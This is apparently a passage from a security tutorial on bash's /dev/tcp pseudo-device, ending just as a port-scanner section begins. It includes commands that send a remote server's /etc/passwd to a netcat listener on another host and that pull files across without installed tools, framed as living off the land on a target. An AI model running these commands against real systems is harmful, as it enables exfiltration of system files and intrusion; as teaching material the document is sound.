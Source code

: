 ```bash
echo -n "Hello" > /dev/tcp/192.168.1.10/1234
```

By redirecting the output of the echo statement to the `/dev/tcp/192.168.1.10/1234` "file", bash will literally send a TCP packet with the raw text of `Hello`, taking care of the TCP handshake and everything. If the remote end does not have a service listening on the other end to complete the handshake, it will eventually time out after about 20 seconds. UDP however, will not time out and happily send the packet(s) across the wire as is the nature of UDP, the Unreliable Damn Protocol.

### So how can I use this in a practical way?

You can interact with any listening process by sending whatever raw data you'd like to it. You can even send entire files with a little help from netcat! Say you were on a server that didn't have netcat or anything similar but you wanted to pull the contents of the file `/etc/passwd` and send it to your workstation. This would be a two-stage process.

#### Sending a file from remote to local

First, on your local workstation:

```bash
nc -lvnp 9090 > ./rhost-passwd
```
...which sets up a netcat listener on all interfaces listening on port 9090, then takes whatever is sent to it and dumps it into the file named `rhost-passwd`.

Second, on the remote server:

```bash
cat /etc/passwd > /dev/tcp/192.168.1.10/9090
```
...which simply sends the content of the /etc/passwd file to `192.168.1.10` on port `9090` right to our netcat listener.

#### Sending a file from local to remote (without opening a port on remote!)

In the same vein, you can *download* a file simply by connecting to a listener.

```bash
# Send a file to whoever connects:
nc -w 2 -lvnp 9090 < /path/to/some/file
```
Note the use of the `-w 2` flag tells netcat to time out after 2 seconds of inactivity (after receiving a connection). Otherwise this would hang indefinitely.

```bash
# Receive that file
cat > myfile.txt < /dev/tcp/10.20.30.40/9090
```

---

#### Port Scanner without Nmap

In the rare case where you are on a server that you can't just install nmap on (which isn't so rare in information security, now that I think about it), sometimes you are forced to live off the land without making changes to the target operating system and installing binaries. Sometimes all you want to do is run a port scan. Luckily with some fancy bash footwork, this can be scripted fairly easily:
